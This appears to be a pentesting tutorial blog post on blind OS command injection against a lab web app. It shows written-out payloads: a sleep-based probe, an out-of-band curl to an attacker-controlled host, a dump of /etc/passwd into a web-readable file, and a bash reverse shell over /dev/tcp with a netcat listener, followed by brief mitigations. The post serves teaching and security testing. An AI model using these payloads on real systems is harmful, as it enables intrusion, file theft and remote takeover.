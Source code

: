 ```yaml
---
title: Blind Command Injection
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Owasp Top Ten]
tags: [webapp, pentesting, Owasp, cmdi, os, command injection, blid command injection]     # TAG names should always be lowercase
---
```


# Blind Command Injection

***Blind Command Injection*** is a cyber attack that involves executing arbitrary commands on a host operating system (OS) but  does not return the output from the command within its HTTP response. Blind Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application.

# Enumeration

In the below image, we can see that the web interface takes in ip address, and perform certain operation on the ip address. Since no output is returned, we may not know what is happening with our supplied input in the backend.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind1.png)

But we can get command execution if our supplied input is passed to a system shell without being sanitized, anyway , if we attempt to predict, we may write something like this `X [ip]` or `X [ip] X`, where X is our unknown command. By suppliying 127.0.0.1, it will be `X 127.0.0.1` or `X 127.0.0.1 X` 

## Time-Based

Time-Based is a technigue of delaying the response time of a target server by sending a command that will make the server to wait for a given time. Using `sleep`, We make the server to sleep (or wait) for a period of time before sending back a response, this can help us determine whether or not our supplied input is directly executed in a system shell. By suppliying `127.0.0.1;sleep 10;`, the command will be something like this `X 127.0.0.1;sleep 10;` or `X 127.0.0.1;sleep 10; X`, this will make the backend server to execute two different commands, one is `X 127.0.0.1` and the other is `sleep 10`, this will make the server to sleep for `10 seconds` if our supplied input is executed directly in a system shell.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind2.png)

From the above image no response is received, this means our supplied input is directly executed in a system shell thereby causing it to wait for `10 seconds`.

## Out-Of-Bound 

Out-Of-Bound is a technigue that allows you to force the target server into sending request to your controlled server. There are different ways to get this done, using `curl`, `ping`, `nslookup` and so on, By using `curl`, We can make the server to send an http request to our controlled server, this can help us determine whether or not our supplied input is directly executed in a system shell. By suppliying `127.0.0.1;curl http://controledhttpserver/;`, the command will be something like this `X 127.0.0.1;curl http://controledhttpserver/;` or `X 127.0.0.1;curl http://controledhttpserver/; X`,this will make the backend server to execute two different commands, one is `X 127.0.0.1` and the other is `curl http://controledhttpserver/`, if our supplied input is executed directly in a system shell, it will make the server to issue http request to our controlled server.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind3.png)

*receiving http request*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind3kali.png)

## Redirection To A File

We can also determine whether or not our supplied input is directly executed in a system shell by redirecting the output of the executed command to a file that can be accessible from web interface. By supplying this `127.0.0.1;uname -a > /var/www/cmd.txt;`, the command will be something like this `X 127.0.0.1;uname -a > /var/www/cmd.txt;` or `X 127.0.0.1;uname -a > /var/www/cmd.txt; X`,  if our supplied input is executed directly in a system shell, it will create a new cmd.txt file in the root of the server(/var/www/) and redirect the output of the executed command to the file `/var/www/cmd.txt`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind5.png)

We can access the file by visiting it

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind5res.png)

We can also read the content of a local file i.e `/etc/passwd` by supplyig this payload `127.0.0.1;cat /etc/passwd > /var/www/cmd.txt;`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind6.png)

*content of /etc/passwd*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind6res.png)

# Exploitation

## Getting Reverse Shell

To get a reverse shell, we used the reverse shell payload below and setup our listener using netcat i.e `nc -nlvp [port]`.

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1'
```
Then supplied the following `127.0.0.1;bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1;` to the vulnerable endpoint.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind7.png)

*receiving reverse shell*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind7kali.png)


# Mitigations

- Avoid calling OS commands directly, Instead Use Built-in library functions.
- Escape values added to OS commands specific to each OS
- Applications should run using the lowest privileges that are required to accomplish the necessary tasks.

# References

- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)

